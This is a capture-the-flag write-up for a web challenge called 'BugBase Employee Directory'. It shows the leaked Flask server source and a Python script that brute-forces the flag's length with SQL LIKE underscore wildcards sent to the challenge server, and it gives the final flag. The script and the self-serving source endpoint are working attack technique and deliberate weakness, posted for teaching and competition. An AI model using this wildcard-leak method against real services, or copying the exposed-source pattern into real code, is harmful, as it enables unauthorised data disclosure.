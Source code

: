 # BugBase Employee Directory - 175 Points

## Description:

```We have made an employee directory for recognizing BugBase employees. Now you can look for employees working in different departments.```

## Solution:

The site was a simple employee listing service. We can select the role from select menu and the employee with that specific role will be listed on the screen. In the sources of the page we can see `/sup3r_s3cr3t` path commented. By visiting that path we get complete source code of the server.

```py
from flask import Flask, request, render_template, make_response
import sqlite3

app = Flask(__name__)

@app.route('/')
def home():
    return render_template('index.html', data="")

@app.route('/sup3r_s3cr3t')
def secret():
    response = make_response(open(__file__).read())
    response.headers['Content-Type'] = 'text/plain'
    return response

@app.route('/getEmployee', methods=['POST'])
def get():
    dept = request.form["dept"]
    conn = sqlite3.connect('employees.db')
    cur = conn.cursor()
    res = cur.execute("select * from employees where Department LIKE ?", (dept.replace("%", ""),))
    data = "id &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Name &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Department<br>"
    for r in res:
        for i in r:
            data = data + str(i) + "&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"
        data = data + "<br>"
    return render_template('index.html', data=data)


if __name__ == '__main__':
    conn = sqlite3.connect('employees.db')
    cur = conn.cursor()
    cur.execute("CREATE TABLE IF NOT EXISTS employees (id INTEGER PRIMARY KEY, name TEXT, Department TEXT)")
    cur.execute(f'''
        INSERT INTO employees VALUES
            (0, "Random Employee", "{open('flag.txt').read()}"),
            (1, "Tuhin Bose", "Security"),
            (2, "Devang Solanki", "Security"),
            (3, "Sivadath K S", "Security"),
            (4, "Siddharth Johri", "Security"),
            (5, "Harshit Kataria", "Marketing"),
            (6, "Diya Patel", "Marketing"),
            (7, "Anushikha Mehta", "Sales"),
            (8, "Prachi Singh", "Sales"),
            (9, "Femin Justin", "Dev"),
            (10, "P Aditya Mohan", "Dev")
    ''')
    conn.commit()
    conn.close()
    app.run('0.0.0.0', 8080)
```

The flag is stored in the `DEPARTMENT` field. The department is chosen from the user's form request. There are no SQL injection vulnerability in the code but in the query the condition specified is suspicious. They've used SQL `LIKE` operator, we're gonna use it to leak the flag. But the `%` wildcard is replaced with empty string so we can't really use it. But there is another wildcard `_` which can be used. 

> The underscore wildcard (_) represents one, single character

We don't know the length of the flag but no problem we can write a small python script to bruteforce the length.

```python
import requests

payload = ""
URL = 'http://165.232.190.5:8080/getEmployee'

while True:
    data = {"dept": "BugBase{" + payload + "}"}
    r = requests.post(URL, data=data)
    if "BugBase{" in r.text:
        print(r.text)
        exit()
    payload += "_"
```

Flag: `BugBase{th4t_1s_why_1_n3v3r_us3_l1k3}`
